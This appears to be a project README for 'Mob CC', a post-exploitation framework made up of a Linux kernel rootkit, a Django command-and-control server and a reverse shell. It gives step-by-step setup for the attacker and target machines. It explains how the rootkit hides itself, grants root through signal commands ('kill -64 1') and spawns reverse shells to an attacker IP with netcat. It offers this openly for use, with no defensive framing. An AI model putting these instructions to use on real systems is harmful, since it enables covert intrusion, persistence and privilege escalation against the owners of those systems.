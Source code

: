 # mobcc

Mob CC is a post-exploitation framework containing a Linux kernel rootkit, C2 server, and Reverse shell with network scanning capabilities.

---

## Setup:
## Attacking side:
  - Download and install Django in your attacking system. 'pip install Django'
  - Download the mobserver directory. You can delete the database file (i.e., db.sqlite3)
  - Change the directory to mobserver ( cd /path/to/mobserver/ ) and delete all migration directories from the app directory.

  ### Setup the database:
    python3 ./manage.py makemigrations
    python3 ./manage.py migrate

  ### Run server:
    python3 ./manage.py runserver <IP>:<port>

#### Note:
  - You can modify the IP address of the attacking machine.
  - If you wish to modify 'mob_client.py' you need to convert mob_client.py into a base64 string.
    `base64 mob_client.py`
  - Copy the base64 string and paste it in the place of the default string in 'mob.c'.
  
## Target Side:
  - Download the 'mob.c', 'make', and 'ftrace_helper.h' files and build the module using the make command (Make sure of the kernel version of the target system).  
  - Install the kernel module (mob.ko) using the insmod command. (This step should be done after the C&C server runs on the attacking machine)

  `sudo insmod mob.ko`

  - If everything is setup correctly (including the IP address) then after installing the rootkit you will get your target device name in the device list in home page.

---

## Usage:
  - Open the C&C server on your browser.
  - If you have already installed the rootkit on the target side then there will be your target device name in device list.
  - Select device and connect.
  - Send commands and recieve responses. You can check the help page for listed additional features.

---

## Linux Kernel Rootkit:
  - Use the Makefile to build the module.
  - ftracer_helper.h is a helping module trying to override the system calls. (Author: xcellerator)
  - Hide and Unhide themselves from modules lists.
  - Granting root permissions by updating root credentials.
  - Creating and executing the reverse shell/backdoor, which can be used to connect to a C2 server.

## Command & Control server:
  - Add new devices to the database by auto-collecting IP from the Https requests.
  - Connect to the target system via reverse shell/backdoor.
  - Send commands and receive responses from the target system via reverse shell.
  - Provide a list of every compromised system's commands and responses.
  - Handle requests from multiple compromised systems simultaneously.

## Reverse shell / Backdoor:
  - When executed, request the C2 server to add this device to the database.
  - Establish the connection between the C2 server and the target system.
  - Spawn a new reverse shell on demand for different IP addresses provided by the C2 server.
  - Scan the network and open ports for potential vulnerabilities in other connected systems.

---

# Screenshots:
  ## Home Page
  ![Home Page](/images/mobcc_home.png)

  ## Send Commands
  ![Send Commands](/images/connect_mob_client.png)

  ## Scan Network
  ![Scan Network](/images/scanning_network.png)

  ## Spawn Shell
  ![Spawn Shell](/images/spawn_newshell.png)

---

# Note:
  - Note that if you kill the reverse shell process, you must install the kernel rootkit module again into the target system.
  - No one can remove the module if it's hidden.

---

# Help:
  - To spawn a new shell from a different device. eg:'nc -lvnp &lt;port&gt;' | 'spawn &lt;Attacker_IP&gt; &lt;port&gt;'
  - To scan the internal network from the target system. 'scan'
  - To kill the connection (reverse shell process) type. 'kill -9 &lt;pid&gt;'
  - To toggle between hide and show the kernel module. 'kill -63 1'
  - To gain root privilege in the target machine from any other attacking machine using a reverse shell-like above. 'kill -64 1'

---


# Resources:
Learn how to create Linux Kernel modules: https://xcellerator.github.io/posts/linux_rootkits_01/
